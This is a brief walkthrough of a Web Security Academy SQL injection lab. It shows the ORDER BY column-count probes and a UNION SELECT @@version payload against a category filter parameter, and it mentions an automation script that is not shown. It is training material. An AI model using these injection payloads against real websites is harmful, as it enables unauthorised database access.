 # SQL Injection Lab 04 - SQL injection attack, querying the database type and version on MySQL and Microsoft

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
### 3. Use ORDER BY to find column count:
   - Test: `/filter?category=Gifts' ORDER BY 1-- -`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2-- -`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3-- -`
   - Result: Error (confirms 2 columns)

### 4. Extract database version:
   - Payload: `/filter?category=Gifts' UNION SELECT NULL,@@version -- -`
   - Result: Database version information displayed


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_04.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

